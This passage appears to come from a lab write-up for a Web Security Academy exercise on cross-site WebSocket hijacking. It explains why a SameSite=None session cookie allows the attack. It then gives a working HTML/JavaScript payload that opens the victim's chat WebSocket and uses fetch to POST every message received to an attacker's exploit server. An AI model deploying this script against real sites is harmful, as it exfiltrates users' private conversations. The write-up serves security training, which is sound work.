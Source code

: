 We also can see that the session cookie has the attribute `SameSite=None` which means that the cookie will be sent with the request to the server. Other options are: 
- `SameSite=Strict`: it is only sent if the site for the cookie matches the site shown in the browser's address bar.
- `SameSite=Lax`: allows the cookie to be sent with top-level navigations, such as when a user follows a link to your site from another site.
  
If the attribute had been set to any of the other options, then the attacker would not be able to send the handshake to the server.

Then we will use our own web page to send the following script opening a WebSocket connection:
```html
<script>
    var ws = new WebSocket('wss://ID.web-security-academy.net/chat')
    ws.onopen = function() {
        ws.send("READY");
    };
    ws.onmessage = function(event) {
        fetch('https://exploit-ID.exploit-server.net/exploit', {method: 'POST', mode: 'no-cors', body: event.data});
    };
</script>
```
Here we are sending the `READY` message to the server, which will trigger the WebSocket to send the chat history of the victim user to the attacker's page. So we use the website URL with `wss://` to open the WebSocket connection. Then we create a listener `onmessage` to receive the chat history and send it to the attacker's page.

![alt text](image-1.png)
